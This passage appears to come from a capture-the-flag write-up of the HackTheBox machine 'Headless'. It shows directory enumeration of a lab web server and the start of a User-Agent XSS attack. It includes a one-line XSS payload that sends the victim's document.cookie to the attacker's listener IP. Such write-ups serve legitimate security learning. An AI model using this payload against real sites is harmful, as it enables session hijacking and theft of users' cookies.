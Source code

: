 {% include img_link src="/img/headless/headless_5000_front_page" alt="front_page" ext="png" trunc=600 %}

I looked over the webpage and there wasn't any link or reference besides support.

![support]({{ page.img }}_5000_support_contact.png)

```bash
dirsearch -u http://10.10.11.8:5000

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/raccoon/_hacking/HackTheBox/Active/Headless/reports/http_10.10.11.8_5000/_24-03-28_23-08-10.txt

Target: http://10.10.11.8:5000/

[23:08:10] Starting: 
[23:09:33] 401 -  317B  - /dashboard
[23:10:47] 200 -    2KB - /support
```

It's safe to say on this easy box we need to somehow access that dashboard. 

![dashboard fail]({{ page.img }}_5000_dashboard_unauthorized.png)

I did check some formats of sending different user/pass data but I couldn't find a way to get a positive response. On to the support page.

So here we have a handful of parameters that get passed to some backend that processes them. A way to traditionally interact with these portals is XSS or template injection, with the former of the 2 being marginally easier to test for. Below is my test payload for every parameter:

```javascript
<img src=x onerror=this.src="http://10.10.14.5:8081/?"+document.cookie;>
```

![hack detected]({{ page.img }}_5000_hacking_attempt.png)

My message wasn't passed through, or any parameter for that matter which I sent XSS through. This message does leak some important information however. The User-Agent is stored in a place where only admins can access. And that sounds to me like a prime XSS target.

# User as dvir

## User-Agent XSS

Traditionally the User-Agent header can't be used for injection purposes and this is to my knowledge one of the few cases where it can be: when you deliberately store the User-Agent from a request for future viewing. Now to the exploit.
